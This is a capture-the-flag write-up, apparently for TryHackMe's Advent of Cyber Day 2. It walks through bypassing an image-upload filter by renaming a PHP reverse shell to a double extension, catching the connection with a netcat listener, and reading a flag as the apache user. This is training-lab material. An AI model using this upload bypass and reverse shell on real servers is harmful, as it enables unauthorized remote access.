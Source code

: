 
to sign in visit:`?id=ODIzODI5MTNiYmYw`

from src code
```html
			<input type=file id="chooseFile" accept=".jpeg,.jpg,.png">
```
I then uploaded some picture, sadly it doesn't show where the images is save. I tried to us gobuster but the browser always return the main page even tho the requested page doesn't exits. I then need to try one by one, luckily I hit the correct directory at the first try `/uploads`


prepare 2 reverse shell, you can find php reverse shell by running `find / -name php-reverse* 2> /dev/null`. I changed the name and make it more cute :P. We know that the site only accept `.jpeg,.jpg,.png` by studying the src page. 


now let change the name of the file and include .png our reverse shell. since this page is poorly implemented, this should be enough to by pass it. 
```console                                                         
┌──(kali㉿kali)-[~/THM/adventofcyber/2]
└─$ cp cutiecat.php cutiecat.png.php
```
Dont forget to change IP + Port in the script before upload it. Open `nc` and listen/wait for incoming reverse shell then visit `/upload/cutiecat.png.php` to execute our shell!!


Boom
```
 nc -nlvp 6969                                                                                  1 ⨯
listening on [any] 6969 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.122.94] 40866
Linux security-server 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:32:13 up 20 min,  0 users,  load average: 0.00, 0.13, 0.45
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (818): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```
let go grab the flag
```
sh-4.4$ cat flag.txt
cat flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNj___________}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```
cya tomorrow, GL happy hacking!!